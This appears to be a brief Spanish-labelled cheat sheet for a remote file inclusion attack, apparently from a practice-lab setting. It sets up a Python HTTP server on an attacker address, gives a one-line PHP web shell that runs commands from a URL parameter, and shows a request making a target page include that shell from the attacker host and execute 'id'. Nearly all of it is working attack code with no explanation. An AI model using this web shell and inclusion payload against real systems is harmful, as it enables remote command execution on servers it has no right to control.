 Servidor

```python
IP = 10.10.10.14

python3 -m http.server 8080
```

shell.php

```python
<?php system($_GET['cmd']); ?>
```

RFI

```python
http://10.10.10.26/index.php?language=http://10.10.10.14:8080/shell.php&cmd=id
```
